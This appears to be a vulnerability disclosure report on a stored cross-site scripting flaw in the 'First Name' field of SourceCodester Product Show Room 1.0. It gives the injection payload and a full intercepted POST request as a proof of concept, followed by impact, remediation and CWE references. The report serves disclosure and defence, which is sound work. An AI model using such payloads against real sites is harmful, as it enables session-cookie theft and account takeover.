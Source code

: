 Stored Cross-Site Scripting Vulnerability in SourceCodester Product Show Room 1.0 
:

    Vendor: Sourcecodester
    Product: Product Show Room 1.0
    Product URL: Product Show Room 1.0

Executive Summary

Stored Cross-Site Scripting (SXSS) vulnerability in Product Show Room 1.0 and earlier allows attacker to inject the Malicious JavaScript Code in the "First Name" input field. The malicious code can then be executed whenever the vulnerable web page is accessed by any user, staff or even admin and will remain persistent. It will eventually result in account takeover as the session cookies can be accessed by the malicious JavaScript Code.
Issue Details

    Vulnerability Name: Stored XSS in First Name
    Severity: High
    Affected URL: /psrs/classes/Users.php?f=save
    Affected Parameter: First Name
    HTTP Method: POST

Issue Description

The web application is vulnerable to Cross-Site Scripting (SXSS) attacks in the "First Name" input field. An attacker can exploit this vulnerability by inputting the malicious JavaScript code in the HTTP POST request to create the user. In the provided example, the attacker modifies the "First Name" parameter to insert a malicious JavaScript Code that can also access the authentication cookies.
Proof Of Concept

Configure a web proxy in your browser.

Navigate to the URL in the browser http://localhost/psrs/classes/Users.php?f=save

Fill in the desired data in the input fields. Intercept the request in the web proxy. Modify the First Name parameter as shown below and send the request to the server.

 -----------------------------20625722601167454874980765703
Content-Disposition: form-data; name="Firstname"

"><img src=x onerror=alert(document.cookie)>


 In the browser just create an account and navigate to homepage

https://drive.google.com/file/d/1CHgwoOWEVzS_upDJSTGQBMdSoVwqKAKQ/view?usp=drive_link
Payload:

Content-Disposition: form-data; name="Firstname"

"><img src=x onerror=alert(document.cookie)>


Request:

POST /psrs/classes/Users.php?f=save HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------20625722601167454874980765703
Content-Length: 1176
Origin: http://localhost
Connection: close
Referer: http://localhost/psrs/admin/?page=user/manage_user
Cookie: PHPSESSID=ne013b16edsf0e0up00dsppfhb
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------20625722601167454874980765703
Content-Disposition: form-data; name="id"


-----------------------------20625722601167454874980765703
Content-Disposition: form-data; name="firstname"

"><img src=x onerror=alert(document.cookie)>
-----------------------------20625722601167454874980765703
Content-Disposition: form-data; name="middlename"

"><img src=x onerror=alert(document.cookie)>
-----------------------------20625722601167454874980765703
Content-Disposition: form-data; name="lastname"

"><img src=x onerror=alert(document.cookie)>
-----------------------------20625722601167454874980765703
Content-Disposition: form-data; name="username"

mohit.ahir7086@gmail.com
-----------------------------20625722601167454874980765703
Content-Disposition: form-data; name="password"

Ramasra1247@
-----------------------------20625722601167454874980765703
Content-Disposition: form-data; name="type"

1
-----------------------------20625722601167454874980765703
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream

-----------------------------20625722601167454874980765703--

Impact:

Stored XSS attacks can have serious consequences, such as Account takeover by stealing cookies, stealing sensitive data, modifying the content of the web page, or redirecting users to a malicious sites.
Remediation:

Implement proper input validation and output encoding to prevent malicious code from being injected into the web application. Use server-side validation to ensure that user input is properly sanitized before being stored in a database or displayed on a web page. Use output encoding to ensure that any user input that is displayed on the web page is properly encoded to prevent malicious code from being executed.
References:

https://portswigger.net/web-security/cross-site-scripting/stored

https://owasp.org/www-community/attacks/xss/
Weakness Enumeration:

CWE-79

This report highlights the Stored XSS vulnerability present in the First Name parameter of /psrs/classes/Users.php?f=save, including the Proof of Concept, its impact, remediation steps and references for further guidance on mitigation strategies.